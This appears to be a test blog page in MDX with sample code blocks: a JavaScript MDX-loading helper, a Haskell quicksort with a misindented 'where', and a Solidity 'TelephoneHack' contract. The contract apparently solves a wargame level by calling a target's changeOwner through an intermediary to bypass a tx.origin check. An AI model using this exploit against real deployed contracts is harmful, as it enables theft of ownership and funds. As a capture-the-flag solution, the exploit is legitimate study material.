 ```yaml
---
title: Test
slug: test
published: 05-15-2023
lastEdited:
---
```


```js
// Hi there!!!!
import { bundleMDX } from "mdx-bundler";
import fs from "fs";
import path from "path";
import { removeFileExtension } from "@/utils/helpers/global";
import { remarkMath } from "remark-math";
import { rehypeKatex } from "rehype-katex";

const getFilesByCategory = (category) => {
  console.log("BOOP");
  const contentDirectory = path.join(process.cwd(), "content", category);
  const fileNames = fs.readdirSync(contentDirectory);
  const cleanedFileNames = fileNames.map((name) => removeFileExtension(name));

  return cleanedFileNames;
};

const getFileContent = async (category, slug) => {
  const filePath = path.join(process.cwd(), "content", category, `${slug}.mdx`);
  const fileContents = fs.readFileSync(filePath, "utf8");
  const { code, frontmatter } = await bundleMDX({
    source: fileContents,
    xdmOptions(options) {
      options.remarkPlugins = [...(options.remarkPlugins ?? []), remarkMath];
      options.rehypePlugins = [...(options.rehypePlugins ?? []), rehypeKatex];

      return options;
    },
  });

  return { code, frontmatter };
};

export { getFilesByCategory, getFileContent };
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

```haskell
quicksort :: (Ord a) => [a] -> [a]
quicksort [] = []
quicksort (x:xs) = (quicksort small) ++ [x] ++ (quicksort big)
where
        small  = filter (< x) xs
        big = filter (>= x) xs
```
